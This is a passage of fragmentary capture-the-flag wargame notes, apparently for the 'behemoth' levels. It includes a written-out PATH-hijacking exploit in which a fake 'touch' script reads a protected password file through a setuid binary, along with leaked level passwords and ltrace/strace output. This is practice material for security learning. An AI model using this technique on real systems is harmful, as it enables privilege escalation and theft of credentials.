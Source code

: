1. The size of the input region in the stack we need to make sure. 
2. The shellcode must fit to our system, the path of bash, the 32-bit or 64-bit.

behemoth2: eimahquuof

## level2-level3

check the function calls of a program:

```shell
ltrace ./filename
```

look at the system calls:

```shell
strace ./filename
```

create a file named "touch"? and the touch file is a script to cat the passwd.

```
tmp$ mkdir /tmp/testa
tmp/testa$ touch test
```

```
#!/bin/bash
cat /etc/behemoth_pass/behemoth3
```

```
export PATH=/tmp/testa/:$PATH
```

```
$ /behemoth/behemoth2
nieteidiel
```

## level3-level4

blank



## level4-level5

behemoth4: ietheishei

trace the library to see what function the program uses:

```shell
behemoth4@behemoth:/behemoth$ ltrace ./behemoth4
__libc_start_main(0x804857b, 1, 0xffffd744, 0x8048640 <unfinished ...>
getpid()                                              = 1787
sprintf("/tmp/1787", "/tmp/%d", 1787)                 = 9
fopen("/tmp/1787", "r")                               = 0
puts("PID not found!"PID not found!
)                                = 15
+++ exited (status 0) +++
```
